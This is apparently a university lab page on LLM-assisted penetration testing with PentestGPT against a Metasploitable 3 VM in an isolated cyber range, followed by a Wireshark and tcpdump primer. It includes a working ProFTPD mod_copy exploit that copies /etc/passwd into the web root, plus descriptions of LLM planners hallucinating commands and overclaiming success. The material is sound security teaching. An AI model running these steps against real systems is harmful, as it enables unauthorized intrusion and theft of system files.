


Agentic pentesting
Last lab you taught an agent to build. This lab you teach it to break.
This is the lab where the two halves of the course meet. Lab 01 had you typing exploits by hand against a Metasploitable VM. Lab 09 had you orchestrating an agent to build software. Lab 10 is the obvious next move: let an agent plan an engagement — reasoning about what to attack next while you run its commands against a live target — to find and exploit vulnerabilities. The dual-use nature of this lab is the entire point. Treat it with the seriousness the discipline requires.
In Lab 01 you spent forty minutes hand-typing four lines that gave you a root shell on a Metasploitable VM. In this lab an agent does the thinking — it reasons about the target, picks the next move, and hands you the exact command to run — and it costs nothing. The tool is PentestGPT (Deng et al., USENIX Security 2024), an LLM-driven pentest assistant; we run it on Rivanna against the free UVA GenAI Kimi model (the same endpoint from Labs 04–05) — no Claude subscription, no paid API. PentestGPT keeps a Pentesting Task Tree of what it has tried and what's next; you run each suggested command on the cyber range's Metasploitable 3 box and paste the results back. By the end of class you'll have produced a real PTES-format report.
This lab introduces operational vocabulary you haven't seen yet — recon, enumeration, RCE, privesc, scope, PTES. Every term underlined like this is hoverable: an explainer opens directly below the line you're reading, pushing the rest of the page down — nothing gets covered.
10.0.0.6, a Metasploitable 3 box in the cyber range. PentestGPT (running on Rivanna against the free Kimi model) reasons about the target and hands you one command at a time; you run each on the range's Kali box and paste the output back. Press ▶ Run to watch the loop. This is a compressed recording, not a live model.
This is a recording, not a live agent. The real session runs the same commands against a real VM inside the cyber range — you'll do that yourself in section 5.
Where to find it
- Virginia Cyber Range — launch the exercise (Kali + a Metasploitable 3 target). If your section reuses Lab 01's environment, confirm the target is the Metasploitable 3 box.
- PentestGPT — the LLM-driven pentest assistant. MIT licensed. Upstream: github.com/GreyDGL/PentestGPT (paper: arXiv 2308.06782). For this lab, clone the course fork github.com/researcher111/PentestGPT — identical to upstream plus two changes that make UVA's free Kimi endpoint work out of the box (see §4).
- Free Kimi model — the UVA RC GenAI service (OpenAI-compatible; you used it in Labs 04–05). Open it in Chrome at open-webui.rc.virginia.edu — chat with it, and grab your API key (NetBadge → Settings → Account → API keys). No paid subscription. PentestGPT's autonomous mode needs the Claude CLI, so we use the interactive legacy mode, which supports Kimi via a custom base URL.
- PTES — the Penetration Testing Execution Standard you'll use to structure your report. pentest-standard.org.
1 · What is a pentest?
A penetration test is an authorized, time-boxed attempt to break into a system the way a real attacker would, in order to document what they could do if they tried. It is not a vulnerability scan (a scan tells you what might be exploitable; a pentest tells you what is). It is not a red-team engagement (red teams emulate a specific adversary; pentests cast a wider net at lower depth). And it is emphatically not a free-form security adventure — the structure is the difference between useful and reckless.
A pentest moves through six broad phases (you'll structure the final report with PTES):
You did all six phases in Lab 01 in compressed form: recon with nmap -sV, enumeration by reading the FTP banner, vulnerability analysis by recognizing vsftpd 2.3.4, exploitation with the smiley-face trigger, post-exploitation by reading /etc/shadow, and reporting in your team's writeup. In this lab the agent does each phase in turn, narrating its reasoning. Your job is to verify each artifact, not to type each command.
2 · Agentic pentesting
Agentic pentesting is the practice of conducting an engagement with an LLM as your reasoning partner rather than relying only on your own recall. PentestGPT runs this as a loop: it suggests a command, you run it against the target, you paste the output back, and it reads the result, updates its plan, and suggests the next step. You set the goal, define the scope, run every command, and review the reasoning. The phases are unchanged from a manual pentest; the operator now has a planner sitting next to them.
In Lab 09 you orchestrated an agent to build software. The agent generated source code, ran tests, and opened a PR — work that's slow for a human and fast for an agent, with errors that show up as failing tests. Pentesting inverts the failure mode. A wrong exploit might silently corrupt the target. A "successful" exploit on the wrong host is a federal crime. A misrouted attack on a production system you don't own is a career-ending mistake. The same loop that's a productivity superpower for building is a footgun for breaking — which is why the discipline matters more, not less.
What the agent gives you in this domain, in three words: recall, recall, recall. A junior pentester forgets the trick for ProFTPD 1.3.5 on port 21, has to grep through their notes, and burns ten minutes. PentestGPT has read the corpus of public exploits and writeups; given a banner, it surfaces the likely vulnerability and the exact command immediately. The recall problem mostly disappears. What remains — and what this lab spends most of its time on — is the judgment problem: which exploit to try, what to do after you're in, when to stop, and how to write up what you found without overstating it (and catching the agent when it confidently invents a vulnerability that isn't there).
The PentestGPT paper measured exactly where LLM pentesters go wrong, and it maps directly onto your job as the operator:
- The #1 cause of failed runs was loss of session context — the model forgets earlier findings as the conversation grows. (That's the failure the task tree is built to fix.)
- The single most over-suggested action was brute force (the most frequent "unnecessary operation" by a wide margin) — LLMs learned it from breach reports, but it's usually the noisy, wrong move in a real pentest. When the agent says "brute-force SSH," that's your cue to push back.
- It can't read screenshots/GUIs, has no feel for social-engineering cues, and is unreliable at writing exploit code (especially low-level) — sometimes inventing tools or flags that don't exist.
None of that is a reason not to use it. It's the map of where your judgment is load-bearing — and exactly the territory the "beat the agent" bonus rewards.
3 · How PentestGPT works
PentestGPT ships two modes, and we deliberately use the older interactive (legacy) one for two reasons. First, it's model-agnostic: it talks to any OpenAI-compatible endpoint, so it runs on the free Kimi model — the newer fully-autonomous mode is hard-wired to the paid Claude CLI. Second, it keeps a human in the loop: it proposes each command but you run it and paste the result back, which is exactly the control point this lab is built around. (The "legacy" label is the project's, not a warning — it just predates the autonomous rewrite.)
Under the hood it is not one prompt to one model. The interactive (legacy) mode splits the work across three cooperating LLM sessions, which is the design that keeps a long engagement coherent:
- Reasoning — holds the big picture and decides the next step. It owns the Pentesting Task Tree (PTT).
- Generation — turns "enumerate SMB" into the exact command to run.
- Parsing — condenses the raw tool output you paste back (a 300-line
nmapdump) into the few facts the reasoning session needs.
The reason for the split is the same lesson from Lab 09: a fixed context window. One session trying to hold the plan, the raw output, and the command-writing at once fills up and loses the thread. Separating them — and keeping the plan as a compact tree instead of a full transcript — is how PentestGPT stays on task across dozens of steps.
- Think · 3 minImagine one model doing everything: holding the plan, reading every raw
nmap/msfconsoledump in full, and writing each command. On your own, write down the concrete failure that creates over a 40-step engagement — and which of PentestGPT's three sessions exists specifically to prevent it.
I've done the Think step — reveal Pair & Share
- Pair · 4 minCompare answers. Did you both land on the parsing session — the one that stops raw tool output from flooding the context window?
- Share · 2 minAs a table, map each of the three sessions to the one failure it prevents, then trace a banner ("port 21, ProFTPD 1.3.5") through reasoning → generation → parsing against the task-tree diagram below.
You navigate this tree with the in-session commands: next (work the most promising leaf), todo (inspect the tree — print the task list and what's next), more (expand a step into exact commands), discuss (ask the reasoning session a question), and quit (end the session).
This is the same progressive-disclosure idea from Lab 09, applied to an attacker's workflow: don't keep everything in context; keep a compact plan and pull in detail only when you act. It's also why PentestGPT is interactive rather than fully autonomous in this mode — a human runs each command and pastes the result, which is exactly the control point this lab is about.
The split isn't arbitrary — the authors first ran plain GPT-3.5/GPT-4 through real pentests and recorded where they broke, then engineered each module against one failure:
- Memory loss — the model couldn't link a vuln in one service to one in another as the chat grew → the Reasoning module + Pentesting Task Tree (PTT) hold the whole plan as a compact tree instead of the raw transcript.
- Recency bias / depth-first tunnel vision — it over-focused on the latest service and forgot earlier leads → the tree keeps every open branch alive so breadth survives.
- Hallucinated commands and tools — it invented flags, and even non-existent tools → the Generation module opens a fresh session per sub-task to write the command, and the Reasoning module re-verifies the tree after each update (only leaf nodes may change) to catch invented edits.
Every one of those is a context-management fix — and the last line of defense against the third is still you, reading the command before you run it.
4 · Setup ~20 min
The setup has two halves: PentestGPT runs on Rivanna (that's where the free Kimi model is reachable), and the commands run on the cyber range's Kali (that's where the tools and the target live). You move commands from one to the other by hand — which is the point.
Why two machines? — read first.
PentestGPT only needs to talk to the model; it never touches the target directly in interactive mode. The free Kimi endpoint lives on Rivanna, so running PentestGPT there means no egress changes to the locked-down cyber range. The range's Kali keeps no internet egress (correct for a vuln lab); you simply copy each suggested command from your Rivanna terminal into Kali, and paste Kali's output back into PentestGPT. (If your instructor opened egress from Kali to the Rivanna endpoint, you can instead run PentestGPT directly on Kali — same steps.)
4.1 Install PentestGPT on Rivanna
In a Rivanna terminal (an Open OnDemand shell or a Code Server session), clone PentestGPT and install it. PentestGPT needs Python 3.12+ and the uv package manager.
We clone a small course fork (github.com/researcher111/PentestGPT) rather than upstream. It is identical to GreyDGL/PentestGPT except for two changes that make it work against UVA's free RC GenAI endpoint out of the box: it registers the Kimi K2.5 model id, and it streams replies (the RC endpoint sends Server-Sent Events even for one-shot calls). Without those you'd hand-edit two files; with the fork you don't.
git clone https://github.com/researcher111/PentestGPT.git
cd PentestGPT
make install # runs `uv sync` → installs into a project-local .venv/
source .venv/bin/activate # put the CLI on your PATH for this shellmake install (i.e. uv sync) installs the CLI into a project-local .venv/ — it is not on your PATH until you activate that environment. That missing step is the usual cause of command not found. Either source .venv/bin/activate once (then every pentestgpt-legacy … command below works as written), or skip activation and prefix each command with uv run — e.g. uv run pentestgpt-legacy --list-models. Activating must be redone in each new terminal / OnDemand session.
4.2 Point it at the free Kimi model
First, get your token and confirm the model: open the UVA RC GenAI portal at open-webui.rc.virginia.edu in Chrome (the supported browser for the portal — NetBadge sign-in and the streaming chat are most reliable there), sign in with NetBadge, and go to Settings → Account → API keys to generate one (this is the same portal and key you used in Lab 04). While you're there, note the exact model id the portal lists for Kimi in its model selector — you'll pass that to PentestGPT.
Rivanna's RC GenAI service serves the model under the exact id Kimi K2.5 — the same value you used as LLM_MODEL in Lab 04, at the same base URL https://open-webui.rc.virginia.edu/api. Kimi is PentestGPT's Moonshot provider, so its key goes in KIMI_API_KEY, and the MOONSHOT_BASE_URL env var redirects that provider from Moonshot's cloud to UVA's free endpoint.
Why a registered id matters (and why the fork pre-registers it): unlike Lab 04's hand-rolled client, which sent whatever LLM_MODEL you gave it, PentestGPT validates the model id against a built-in registry and upstream ships only kimi-k2.6 — so a bare upstream install rejects Kimi K2.5 before any network call. The course fork adds the one line below to pentestgpt_legacy/llm/registry.py, so the id resolves to the Moonshot provider (and KIMI_API_KEY / MOONSHOT_BASE_URL apply) and is sent to the endpoint verbatim as Kimi K2.5:
# ---- Moonshot Kimi (OpenAI-compatible) --------------------------------
ModelSpec("kimi-k2.6", "moonshot", 256_000, "flagship", notes="Kimi K2.6"),
ModelSpec("Kimi K2.5", "moonshot", 256_000, "flagship", notes="UVA RC GenAI Kimi K2.5"), # added in the fork
pentestgpt_legacy/llm/registry.py — the fork adds the Kimi K2.5 line beneath the shipped kimi-k2.6 one. (No edit needed if you cloned the fork.)Set your key and the endpoint in the environment (PentestGPT reads them from your shell or a .env file in the repo):
export KIMI_API_KEY=<your RC GenAI token>
export MOONSHOT_BASE_URL=https://open-webui.rc.virginia.edu/api # redirects the Kimi connector to UVA- Run it with
uv run(or activate the venv first).make installputs the CLI in a project-local.venv/that isn't on yourPATH; a barepentestgpt-legacygivescommand not found(see §4.1). Quote"Kimi K2.5"— the space matters. - Redirect with the
MOONSHOT_BASE_URLenv var, not the--base-urlflag. The flag is applied only in interactive mode —--smoke-test(next step) ignores it, so it would test againstapi.moonshot.cnand fail. Setting the env var works for both paths. - Use
pentestgpt-legacy, notpentestgpt. The fully-autonomouspentestgptcommand is Claude-only and needs the paid Claude CLI; the legacy interactive mode is the multi-provider, human-in-the-loop one (see §3). - Spellings drift between releases. Run
uv run pentestgpt-legacy --helpand--list-models(Kimi K2.5should appear, since the fork registers it) to confirm flags and ids for your installed version.
4.3 Validate
Before you touch the target, confirm the wiring with the built-in smoke test — it live round-trips the configured model and prints a pass/fail line:
# --model restricts the test to just your model so you get one clean line $ uv run pentestgpt-legacy --model "Kimi K2.5" --smoke-test [Moonshot Kimi] [ok] PASS Kimi K2.5 Summary: 1 passed, 0 failed, 0 skipped (1 total). # also useful: confirm the id is now registered and the provider is configured $ uv run pentestgpt-legacy --list-models
A green PASS means your token, the base URL, and the model id all line up — you're set up. The Kimi K2.5 id and the streaming behavior the RC endpoint needs are both already baked into the course fork — I forked and modified PentestGPT so it runs on Rivanna out of the box, with nothing to patch by hand.
4.4 Open the cyber range
Spin this up last — right before you engage — so the VMs aren't running idle while you set up PentestGPT. Same Virginia Cyber Range (VCR) you used in Lab 01 — a cloud-hosted, isolated network with no path to the public internet. This lab's exercise gives you a Kali VM (attacker) and a Metasploitable 3 target in a private subnet.
- Open the VCR console and sign in at console.virginiacyberrange.net with your Google account.
- Launch the exercise. Click Launch Exercise; provisioning takes ~60 seconds and spins up
kali(attacker) and a Metasploitable 3 target. - Connect to Kali. The range opens a full Linux desktop in your browser via Apache Guacamole — no SSH client needed. Default login is
kali/kali(a public default that's only acceptable inside an isolated range). - Open a Terminal Emulator on Kali. This is where you run every command PentestGPT suggests — the fastest path is the
>_icon in the top panel.
The Guacamole browser desktop doesn't share your local clipboard directly. To paste a command into Kali, open the Guacamole side panel — Ctrl + Alt + Shift (or Ctrl + Option + Shift on macOS) — paste into its clipboard box, then paste again inside the terminal. The same shortcut closes the panel.

>_ icon in the top panel; the Applications menu (top-left) also lists Terminal Emulator under System Tools. Image: Wikimedia Commons (GPL).Find the target. The Metasploitable 3 box is published by hostname as target.example.com. In the Kali terminal, resolve that name to an IP — getent hosts works whether the range serves it via DNS or a /etc/hosts entry:
kali$ getent hosts target.example.com 10.0.0.6 target.example.com # either of these works too: kali$ dig +short target.example.com 10.0.0.6 kali$ nslookup target.example.com
Your resolved IP may differ from the example above — read it off your own output, not the number shown here. That address (or the target.example.com name itself) is your target; note it down — you'll put it in your scope statement (§5.1) and hand it to PentestGPT.
Shortcut. Capture the resolved IP straight into a $TARGET shell variable (the same convention as Lab 01) so you can reuse the address without retyping it:
kali$ export TARGET=$(getent hosts target.example.com | awk '{print $1}') kali$ echo "$TARGET" 10.0.0.6
5 · Your first agentic engagement ~60 min
The target is the Metasploitable 3 box in your exercise, published as target.example.com (resolve it to an IP as in §4.4 — here 10.0.0.6). The goal is a full pentest: enumerate every service, identify the known vulnerabilities, exploit at least three, document everything. PentestGPT proposes each step from Rivanna; you run it on Kali and paste the result back. You read and run every command yourself — the agent never touches the target directly.
5.1 Write the scope statement first
Before you take a single suggestion, write the scope statement and paste it into PentestGPT's first prompt. An LLM proposing commands doesn't know which hosts are yours; you do. A good scope statement is short and specific:
# scope
Target: target.example.com (Metasploitable 3 VM) -- this ONE host only.
Out of scope: every other host -- the cyber-range gateway, the Kali box itself,
the cyber range control plane, and anything that is not target.example.com.
NO scanning a subnet or range; the single target host is the entire scope.
Authorized: network recon, service enumeration, exploitation of known CVEs on
the target's services (ProFTPD, UnrealIRCd, Apache, Samba, MySQL, CUPS),
post-exploitation incl. reading /etc/shadow and /etc/passwd. NO denial-of-service.
NO host-config changes. NO persistence.
Time-box: stop after 60 minutes or 3 distinct services compromised.
Reporting: PTES format.5.2 Start the session and brief it
Start PentestGPT on Rivanna, paste your scope as the briefing, and type next to get the first step. It will suggest a command — you run it on Kali.
Two commands to know before you start: at any point type todo to inspect the task tree — PentestGPT prints the current task list and what it thinks is next, which is the compact plan from §3 made visible — and type quit to end the session when you're done (it saves the transcript on the way out).
rivanna$ uv run pentestgpt-legacy --reasoning-model "Kimi K2.5" --parsing-model "Kimi K2.5" > Target 10.0.0.6 (Metasploitable 3). Scope: that host only. Goal: full PTES pentest, exploit ≥3 services. <paste scope> [reasoning] Scope noted: 10.0.0.6 only. Building the Pentesting Task Tree. [reasoning] First task: full service scan. Run this and paste the output: > nmap -sV -p- 10.0.0.6
5.3 Run its commands on Kali, paste results back
This is the loop. PentestGPT (Rivanna) suggests; you run on Kali; you paste the output back; it parses and picks the next step with next. Read every command before you run it — you are the one executing it.
From here, you drive the loop yourself — there's no worked transcript to copy. Type next for the first task (a full service scan; the -p- sweep is the slow part — let it run), then work the loop: paste the scan back so the agent condenses it into the task tree, pick a promising service, ask for the exact commands with more, run the exploit on Kali, verify your shell with id, escalate if you landed as a non-root user, paste the result back, and next to the following service. Use todo to inspect the tree and quit when you're done. Keep going until you hit your time-box or service count — and read every command before you run it.
5.4 Stop and review
Once you've compromised your target services, stop and read before going further. Because you ran every command, the review is about catching both your own slips and the agent's. Three things to check:
- Did every command stay in scope? Scroll your Kali history — every
nmap,nc, andmsfconsoleshould target10.0.0.6. If PentestGPT ever suggested another IP and you ran it, that's a critical issue — stop, investigate. - Did the agent over-claim? Compare PentestGPT's "you have root" against what
idactually returned in your shell. The model sometimes declares success the tool output doesn't support — that's the headline failure mode of LLM-driven pentesting. - Did you leave persistence? Your scope said none. Through the existing shell, check
ls /root,cat /etc/rc.local,crontab -l— no new files, cron jobs, or services. You're proving a point, not staying in the building.
5.5 Have it draft the report
Ask PentestGPT to summarize the engagement into a PTES report from the task tree it has been keeping:
> Write a PTES report from the task tree: scope, methodology, findings (one row per service you compromised), risk ratings, remediation. [reasoning] Drafting from the task tree... # Pentest report — 10.0.0.6 (Metasploitable 3) ## Executive summary · ## Scope · ## Methodology · ## Findings · ## Risk · ## Remediation > # copy the draft into report.md and edit it
Read the report. The structure will be correct (PTES is well-documented in the model's training data); the content needs editing. Common edits: tone too breathless, risk ratings inflated, remediation too generic, and any finding whose evidence you can't point to in your own terminal history. You sign the report, not the model.
Your services compromised and a structured report, with an LLM doing the recall and planning while you ran and verified every command. Compare to Lab 01, where you spent 40 minutes to land one exploit on one service. The speed-up is real — and you have a command history, a scope statement that bounded the work, and a report you signed off on. None of those existed in Lab 01, and none of it cost a cent: PentestGPT ran on Rivanna against the free Kimi model. The discipline is what makes the productivity sustainable.
Part 2 · Reading the wire
Part 1 had an agent plan the attack and you run it. Part 2 is the other side of the same packet — what those exploits actually looked like on the network. Every command you ran crossed the wire as frames, and a surprising amount of it in plaintext. Wireshark and tcpdump are how both attackers and defenders read that traffic. This half is a standalone packet-analysis primer; run it against the same Metasploitable 3 target.
6 · Wireshark · hands-on ~30 min
Wireshark is the canonical packet-capture and analysis tool — installed in every Kali image. It listens on a network interface, captures every frame that interface sees, and presents them as a searchable, filterable list. In Part 1 the agent told you what to run; here you watch what those commands put on the wire.
6.1 Launch Wireshark on Kali
kali$ sudo wireshark &
Pick the eth0 interface and click the shark-fin icon (top-left) to start capturing. Leave it running while you generate traffic in §6.2. Wireshark shows three stacked panes: the packet list (one row per frame), the packet details (every header field of the selected frame, decoded layer by layer), and the raw bytes.
6.2 Generate the traffic · run the ProFTPD attack by hand
With the capture running, replay the ProFTPD mod_copy attack manually over plain FTP so its packets cross the wire. mod_copy (CVE-2015-3306) accepts the SITE CPFR/SITE CPTO copy commands without authentication, so you can drive the whole thing straight from nc — type the two SITE lines yourself and watch the server's replies:
kali$ nc target.example.com 21 220 ProFTPD 1.3.5 Server SITE CPFR /etc/passwd 350 File or directory exists, ready for destination name SITE CPTO /var/www/html/leak.txt 250 Copy successful ^C (Ctrl-C to drop the FTP connection) # the daemon copied a root-owned file into the web root — grab it over HTTP: kali$ curl http://target.example.com/leak.txt root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin ...
Now stop the Wireshark capture (the red square). You've just generated exactly the packets you're about to dissect — and done by hand what PentestGPT wrapped in a Metasploit module in Part 1.
6.3 Filtering · find the needle in 4,000 packets
A single page load generates thousands of packets (DNS lookups, TCP three-way handshakes, HTTP requests for assets, ACKs, retransmits…). Wireshark's display filter is how you find what you care about. The grammar is:
[protocol].[field] [operator] [value]Common filters worth memorizing (replace 10.0.0.6 with your target's resolved IP):
| Filter | Shows |
|---|---|
ip.dst == 10.0.0.6 | Every packet sent TO the target |
ip.addr == 10.0.0.6 | Every packet TO or FROM the target |
tcp.port == 80 | Every TCP packet on port 80 (HTTP) |
http.request | Just HTTP request packets |
tcp contains "password" | Any TCP packet whose bytes contain the literal string "password" |
ftp | All FTP control-channel traffic — where the ProFTPD attack lives |
!arp && !icmp | Everything except ARP and ICMP — a common starting filter |
6.4 Follow TCP stream · reassemble a conversation
Filter to ftp, right-click any of those packets → Follow → TCP Stream. Wireshark stitches every packet in that connection back into the original conversation — the exact SITE commands you typed in §6.2 and the server's replies. This is the moment the lesson clicks: everything sent over a cleartext protocol is right there, readable by anyone on the same network.
# Follow TCP Stream · FTP control channel (filter: tcp.port == 21) 220 ProFTPD 1.3.5 Server SITE CPFR /etc/passwd 350 File or directory exists, ready for destination name SITE CPTO /var/www/html/leak.txt 250 Copy successful
No password was cracked and no encryption was broken — the protocol simply carries everything as text, so your attack is as readable to a network eavesdropper as it was to the server. That is the entire argument for TLS.
The TCP stream you just reassembled is what an analyst looks at. ML systems that work on network data — intrusion detection, malware classification, traffic anomaly detection — don't feed raw packets to models. The standard preprocessing is to aggregate packets into flows: groups of packets sharing the same 5-tuple (src_ip, dst_ip, src_port, dst_port, protocol). For each flow, compute statistics — total bytes, packet count, mean inter-arrival time, TCP flag counts, packet-size histogram, duration — and that feature vector goes into the classifier.
Two flow-feature datasets you'll see throughout the course:
- NSL-KDD — 41 features per record, ~125k records, labeled benign vs four attack categories. Flawed (synthetic, outdated) but the standard intro benchmark.
- CICIDS2017 — modern PCAP-derived dataset from the Canadian Institute for Cybersecurity. Real traffic across a week with realistic attacks, ~80 features per flow. unb.ca/cic/datasets.
The .pcap you capture in §7 is the raw material those features are computed from — the bridge from "packets on a wire" to "rows in a model's training set."
You're investigating an incident and have a packet capture from one of your servers. Write a single Wireshark display filter that finds every HTTP POST request sent to 192.168.1.50 on port 8080 (the management interface). What does each clause do?
Show answer
http.request.method == "POST" && ip.dst == 192.168.1.50 && tcp.dstport == 8080
Three clauses joined with logical AND: (1) only HTTP request packets where the method is POST, (2) only packets whose destination IP is the server, (3) only those on TCP destination port 8080. The third clause distinguishes the management interface from the regular port-80 service on the same host. Real incident response looks exactly like this — chains of filters narrow a million-packet capture to the few hundred relevant ones.
7 · tcpdump · capturing without a GUI ~15 min
Wireshark has a GUI. Production servers don't. tcpdump is the command-line equivalent — same packet-capture engine (libpcap), same filter language, written to a file. Production incident response usually starts with tcpdump on a server, then ends in Wireshark on someone's laptop.
7.1 Capture to a file
kali$ sudo tcpdump -i eth0 -s 0 -w capture.pcap port 80 tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 262144 bytes ^C 1432 packets captured
-i eth0 sets the interface; -s 0 captures the full packet (the default truncates); -w capture.pcap writes to a file; port 80 is a BPF filter that limits to HTTP. The .pcap file opens directly in Wireshark for analysis later.
7.2 Quick stats on the wire
kali$ sudo tcpdump -nni eth0 -c 20 port 21 14:51:23.842 IP 10.0.0.6.52341 > 10.0.0.5.21: Flags [S], seq 1 14:51:23.851 IP 10.0.0.5.21 > 10.0.0.6.52341: Flags [S.], seq 1 14:51:23.851 IP 10.0.0.6.52341 > 10.0.0.5.21: Flags [.], seq 1 ...
-n skips DNS resolution (faster), -c 20 stops after 20 packets, port 21 is FTP. The Flags [S] / [S.] / [.] sequence is the TCP three-way handshake (SYN, SYN-ACK, ACK). Reading these flags by eye is a skill that pays dividends every time something is mysteriously broken.
Assignment · run a real engagement
Run a full pentest engagement against the cyber range's Metasploitable 3 VM, driving PentestGPT (on Rivanna, against the free Kimi model), then capture and analyze the traffic it generated. Submit deliverables that a real client would accept. Specifically:
Deliverables
scope.md— your scope statement. Specific IPs, exclusions, attack categories, time-box.transcript.md— the PentestGPT session (its reasoning + your commands) and your Kali command history, edited for readability but unedited for correctness (preserve any agent mistakes verbatim — catching them is the evidence of the discipline you applied).report.md— your edited PTES-format report. Must include: executive summary, methodology, findings table (one row per compromised service), evidence (commands + outputs), risk ratings (CVSS or your own scale, justified), remediation guidance, signature line with your name.capture.pcap+ packet analysis — a short capture (tcpdump or Wireshark) taken during your engagement, plus a Follow TCP Stream screenshot (or paste) showing a plaintext protocol command or credential you found, and one display filter you wrote with a one-line note on what it isolates.reflection.md— one page. Three questions answered honestly: (a) what surprised you that the agent got right? (b) what did the agent get wrong, and how did you catch it? (c) what would you not have caught if the agent hadn't shown you its reasoning?- (Bonus, +10 pts) Beat the agent. Find a real vulnerability on the target that PentestGPT missed, misjudged, or hallucinated — and document it: the evidence, a working exploit (or proof the hallucinated one fails), and one sentence on why the model got it wrong. This is the judgment-over-recall point made concrete.
Required scope
You must compromise at least one additional service on the Metasploitable 3 VM — one beyond the ProFTPD mod_copy path demonstrated in the walkthrough, with a clearly-distinct exploitation path (not a variation on the same service). PentestGPT will surface many leads; you drive the engagement yourself, and verify the compromise with your own output.
Rubric
| criterion | points |
|---|---|
| Scope statement — specific, defensive, time-boxed | 10 |
| ≥1 additional service compromised (beyond the walkthrough) with evidence in the transcript | 25 |
| Report follows PTES — exec summary, methodology, findings, risk, remediation | 20 |
| Packet capture & analysis — pcap, a plaintext Follow-TCP-Stream finding, one working display filter | 15 |
| Reflection — honest, specific, names a verifiable agent mistake | 15 |
| You-signed-it quality — would a real client accept this report? | 15 |
| Total | 100 |
| Bonus · beat the agent (a vuln it missed / misjudged / hallucinated) | +10 |
FAQ
Can I run this against my own home network?
Yes — if you own every device on it, including your roommate's. Owning the router is not owning the laptops connected to it. When in doubt, don't.
What if the agent does something I didn't authorize?
Ctrl+C the session. Document what happened in your transcript. Add an explicit guardrail to your scope statement for next time. The agent learning from a near-miss is the point of the retrospective; pretending it didn't happen is how next semester's news story gets written.
Why a course fork of PentestGPT? Can I use the upstream repo instead?
The course fork is upstream GreyDGL/PentestGPT plus exactly two commits, both needed for UVA's free RC GenAI endpoint: (1) it registers the Kimi K2.5 model id (upstream's registry only knows kimi-k2.6, so it would reject UVA's id before any network call), and (2) it streams replies in openai_compatible._via_chat (the RC endpoint sends Server-Sent Events even for one-shot calls, which makes upstream crash with 'str' object has no attribute 'choices'). You can use upstream, but then you must hand-apply both edits yourself. Everything else — the three-session design, the task tree, the commands — is identical, and the fork tracks upstream's main.
How is this different from running Metasploit Pro or Cobalt Strike?
Those are tool frameworks — you still decide every action. PentestGPT reasons about what to do next, in plain English you can audit, and hands you the command. The unit of automation is the decision, not the keystroke — and you still run the keystroke.
Does PentestGPT actually find real vulnerabilities?
Yes, within limits. The paper benchmarked it on 13 targets / 182 sub-tasks (from HackTheBox and VulnHub, covering the OWASP Top 10 across 18 CWEs), where the three-module design lifted sub-task completion +228.6% over GPT-3.5 and +58.6% over GPT-4 used naively. On live targets it solved 4 of 10 HackTheBox machines (about $131 in API cost — our lab swaps that for the free Kimi model) and placed 24th of 248 teams in a picoCTF-style competition. The consistent caveat, in the paper and in this lab: it's strong on easy/medium targets and weak on hard ones — which is exactly where your expertise has to take over.
Do I need Claude Code or any paid subscription?
No. PentestGPT's autonomous mode (the plain pentestgpt command) is Claude-only and needs the paid Claude CLI — we don't use it. The interactive legacy mode (pentestgpt-legacy) is multi-provider: we set KIMI_API_KEY to our RC token and MOONSHOT_BASE_URL to the free UVA Rivanna GenAI endpoint, so the whole lab costs nothing.
Can I swap in a different model?
Yes. pentestgpt-legacy supports many providers (OpenAI, Anthropic, Gemini, DeepSeek, Qwen, Moonshot/Kimi) plus any OpenAI-compatible endpoint — set the provider's API-key env var, redirect it with the matching <PROVIDER>_BASE_URL env var, and pick the model with --reasoning-model/--parsing-model. Rivanna/Kimi is the free default; a local Ollama model (--reasoning-model ollama:qwen3 --base-url http://localhost:11434/v1) works with no egress at all. Flag and model-id names drift between releases — check --help and --list-models.
Is the cyber range exercise the same one as Lab 01?
The Kali host is the same; the target is a Metasploitable 3 box (more services, different CVEs than Lab 01's Metasploitable 2). Because PentestGPT runs on Rivanna — not inside Kali — the range needs no new egress. Use the Lab 10 listing on the exercise dashboard if it has one; confirm the target by resolving target.example.com either way.
